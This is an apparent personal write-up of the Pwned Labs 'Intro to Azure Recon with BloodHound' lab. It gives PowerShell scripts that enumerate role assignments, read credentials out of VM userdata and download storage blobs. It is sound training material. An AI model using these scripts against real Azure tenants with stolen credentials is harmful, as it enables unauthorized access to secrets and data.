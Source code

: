 ```yaml
---
layout: default
---
```


# Overview

This is a writeup for the [Intro to Azure Recon with BloodHound](https://pwnedlabs.io/labs/intro-to-azure-recon-with-bloodhound) lab at pwned labs

I worked through the walkthrough last week as I hadn't used bloodhound before, now I'm going to run through again while trying to write some re-usable scripts for future labs

# Lab

## Role Enumeration

To start with we are given some user credentials for azure, lets write a generic script for enumerating permissions

```powershell
$session = Connect-AzAccount -UseDeviceAuthentication
$roles = Get-AzRoleAssignment -SignInName $session.Context.Account.Id -ExpandPrincipalGroups
$roles | Format-Table RoleDefinitionName, Scope, CanDelegate
```

![That was quick](/images/azure-recon-roles.png)

OK that works for a single sub, but lets future proof it by adding support for multiple subscriptions and tenants

```powershell
#Initialise list variables incase we only get one result
$scopes = @()
$tenants = @()
$roles = @()

#Authenticate to azure
$session = Connect-AzAccount -UseDeviceAuthentication

#Get all tenants for this user
$tenants += (Get-AzTenant).Id

#Add subscriptions
foreach($tenant in $tenants) {
    Set-AzContext -Tenant $tenant | Out-Null
    $scopes += (Get-AzSubscription -TenantId $tenant) | Select-Object Id, @{n="TenantId";e={$tenant}}
}

#Enumerate roles
foreach($scope in $scopes) {
    Set-AzContext -Tenant $scope.TenantId -Subscription $scope.Id | Out-Null
    $roles += Get-AzRoleAssignment -SignInName $session.Context.Account.Id -ExpandPrincipalGroups -IncludeClassicAdministrators
}

$roles | Format-Table RoleDefinitionName, Scope, CanDelegate
```

This was interestingly awkward, for some reason the Get-AzRoleAssignment cmdlet doesn't allow you to specify a scope and sign-in name when using expand principal groups

I got around this by just setting the context and appending the reults for each subscription, I'll keep this around for future Azure labs

## VM Userdata

The only role we have is for the VM, so lets write a script that would also work in a larger environment
Userdata is only returned when directly specifying an individual VM

```powershell
#Initialise list variables incase we only get one result
$scopes = @()
$tenants = @()
$roles = @()
$VMs = @()

#Authenticate to azure
$session = Connect-AzAccount -UseDeviceAuthentication

#Get all tenants for this user
$tenants += (Get-AzTenant).Id

#Add subscriptions
foreach($tenant in $tenants) {
    Set-AzContext -Tenant $tenant | Out-Null
    $scopes += (Get-AzSubscription -TenantId $tenant) | Select-Object Id, @{n="TenantId";e={$tenant}}
}

#Enumerate VMs
foreach($scope in $scopes) {
    Set-AzContext -Tenant $scope.TenantId -Subscription $scope.Id | Out-Null
    $VMList = Get-AzVM
    foreach($VM in $VMList) {
        $VMs += Get-AzVM -UserData -ResourceGroupName $VM.ResourceGroupName -Name $VM.Name | Select-Object *, @{n="UserDataString";e={[Text.Encoding]::Utf8.GetString([Convert]::FromBase64String($_.UserData))}}
    }
}

$VMs | Where-Object {$_.UserData -ne $null} | Format-List Name, UserDataString
```

![VM userdata](/images/azure-recon-userdata.png)

I ran this on my home tenant and was happy to see no sketchy userdata 🥳

## Storage Account Enumeration

Lets rerun our role enumeration script using the new creds we pulled from user data

![Security account roles](/images/azure-recon-security-roles.png)

We only have access to a storage account, lets write a script to enumerate the blobs and download a target

```powershell
#Get the storage account name to enumerate
$storageAccount = Read-Host -Prompt "Enter the storage account name"

#Authenticate to azure
$session = Connect-AzAccount -UseDeviceAuthentication

#Create a storage context
$storageContext = New-AzStorageContext -StorageAccountName $storageAccount -UseConnectedAccount

#Get available storage containers
$storageContainers = Get-AzStorageContainer -Context $storageContext

#Get available blobs from storage containers
$blobs = foreach($container in $storageContainers) {
    Get-AzStorageBlob -Container $container.Name -Context $storageContext
}
$blobs | Format-Table Name, ContentType, LastModified

#Retrieve blob content
$targetBlob = Read-Host -Prompt "Enter the blob name you want to view"
$targetBlobDetails = $blobs | Where-Object {$_.Name -eq $targetBlob}
If ($null -eq $targetBlobDetails) {
    Write-Error "Target blob was not found, please rerun and refer to output"
}
$blobDownload = Get-AzStorageBlobContent -Container $targetBlobDetails.BlobClient.BlobContainerName -Blob $targetBlob -Destination ".\" -Context $storageContext

#Output blob content
Get-Content -Path ".\$($blobDownload.Name)"
```

![Flag!](/images/azure-recon-flag.png)

Nice, we have the flag and I'm lazy so I will stop here

# Lessons Learnt

First lesson is that when doing a write-up, definitely give it a go blind first instead of starting the walkthrough and getting too engrossed... oops
